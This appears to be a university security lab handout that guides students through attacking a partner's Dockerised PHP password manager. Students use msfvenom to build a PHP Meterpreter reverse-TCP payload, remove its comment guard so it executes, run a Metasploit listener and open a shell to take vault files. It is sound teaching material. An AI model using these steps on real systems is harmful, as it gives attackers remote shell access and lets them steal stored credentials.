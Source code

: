 # Week 5 | Offensive

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .
```

## Part 0: Adding our Sensitive Information

In the last lab, you were asked to create a new user account, create a new vault, and add some passwords along with sensitive information in the form of a .txt file. If you have not done this yet, please do so now as this will be the asset your lab partners are after when they hack your password manager.

### It is super important that you DO NOT delete volumes when redeploying your web application if you want to save the information you have added to your docker container.

You can think of the volumes in Docker as the storage used by each container. When we first spin up our web application, these volumes are generated and storage on your machine is allocated for each container.

When we create new user accounts, add passwords, and upload files, these are all stored within the volumes for our containers. This is why it is extremely important when we run redeploy to NOT delete these volumes.

It may also be more beneficial to run `start.py` and `stop.py` rather than the `redeploy.py` script as these will not delete any data we have added.

## Part 1: Planning our Attack
Some helpful definitions to recall from lecture are:
- `Vulnerability`: A weakness which can be exploited by a threat actor, such as an attacker.
- `Exploit`: A piece of code written to take advantage of a particular vulnerability.
- `Payload`: A piece of code to be executed through said exploit on a specific target.
- `Target`: A system being exploited and that will run the payload.

In this lab, we will be crafting a payload to take advantage of a vulnerability on the target machine.

1. We need to identify a vulnerability. How can we get a piece of code onto our password manager?
    - Note that this should also be a place where we can **execute** the payload. We need to be able to run our code once we somehow get it onto our target machine.

Once we have identified our vulnerability, we can begin crafting our payload!

## Part 2: Setting up Metasploit

Metasploit is a framework that allows penetration testers to identify, exploit, and validate vulnerabilities in a system. It includes an extensive set of tools specifically for penetration testing. We can use the tools to generate payloads that will allow us to easily attack a system.

We will be utilizing metasploit through a Docker container. In a "real" pen testing role, you may find it more beneficial to use metasploit via a virtual machine running Kali Linux, a distribution of Linux that includes a host of tools for offensive security (including metasploit)! For our purposes, a Docker container will allow us to quickly and easily access the tools we need.

1. First, we need to deploy a docker container running metasploit. Run the following command to pull the metasploit image and spin up a container with that new image.

    ```
    docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework
    ```

    Your terminal should now be running the metasploit docker container! You should see something similar to the following output:

    ![metasploit contianer](/lab-writeup-imgs/metasploit_container.png)

    Two things to take note of, the ASCII art will most likely be different, and your LHOST should be printed at the bottom of the terminal (highlight in red in the image above). This is the IP address of the docker container running metasploit. You should take note of this IP address as we will need to use it during the lab.


## Part 3: Crafting our Payload

As mentioned above, metasploit comes with a suite of tools for us to use for pentesting and offensive security purposes. One of those tools being msfvenom. Msfvenom lets us generate customized payloads for our specific attack. We will be using msfvenom to easily craft the payload we will be using in this lab!

The payload we will be crafting will be built off of the `meterpreter` payload. This payload provides an interactive shell between the victim's machine and the attacker's machine. This shell will allow us to explore our target and execute commands on their device!

1. To generate our payload, we will use the following command:

    ```
    /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
    ```

    - `-p php/meterpreter_reverse_tcp`: This specific payload builds the meterpreter payload in PHP, which is what we want since we know that the target is a PHP server. 

        The `reverse_tcp` part refers to the type of network communication method that this payload will establish. Essentially, we are creating forcing the victim's machine to connect to a service that will be running off of our machine, hence the 'reverse' part.

    - `LHOST=<Your EXTERNAL IP address> LPORT=4444`: We then set the `LHOST` and `LPORT` to match the IP address and the port that the victim will be connecting to.

        Since your target's password manager is running on their machine outside of your own internal docker network, the LHOSt must be set as your IP address, which you can find by running `ipconfig` or `ifconfig`.

    - `-f raw`: This specifies the payload should be 'raw' output, meaning it will just print to our terminal rather than being saved to a file.

2. Once you have run the command above, you should get a large output in your terminal. This is our payload! We can copy it and paste it into a `.txt` file on our machine. Make sure you save it as `reverse_tcp.php`, so that it can be executed as a PHP script.

    - Note that the payload will have a comment tag at the beginning. This is to ensure that the payload does not accidentally execute! We can remove this before saving so that the payload will run on our target machine.

## Part 4: Setting up our attacking machine
1. To select this payload, run the following command in the msfconsole container:

    ```
    use php/meterpreter/reverse_tcp
    ```

2. Once we have selected this payload, let's double check that all of our options are configured correctly. Run the following command to see all options we can configure:

    ```
    options
    ```

    You should see two possible options, `LHOST` and `LPORT`.

    - LHOST: This is the address of the machine the victim will try to connect to during our attack. It is the address that should have the service "**L**istening" for a connection. This should match the LHOSt you saw in part 1.
    - LPORT: This is the port the service will be "**L**istening" on.

    These two options should already be configured by default to match your metasploit container's IP address and the appropriate port (4444).

3. Next, we will run the following command to start the service. It will be listening on port 4444 for incoming connections from our victim's machine.

    ```
    exploit
    ```

## Part 5: Attacking the Password Manager >:)

By now, you have the service listening within your metasploit container and have successfully placed the payload on the target's machine.

We need to now somehow execute the payload to establish a connection from the target's device to our attacking machine. Can you think of a way that we can run the payload?

Once you have successfully executed the payload, you can list all of your sessions running in metasploit with the following command:

```
sessions -l
```

You should see your sessions listed with a session ID. To interact with the session of interest, enter the following command with the session ID:

```
sessions -i <ID>
```

You should now be able to access the shell connected with the victim's machine! Start exploring the target and see if you are able to extract the information from their personal vault!

## For credit:

Take a screenshot of the shell session you established, along with the .txt file uploaded by your lab partner!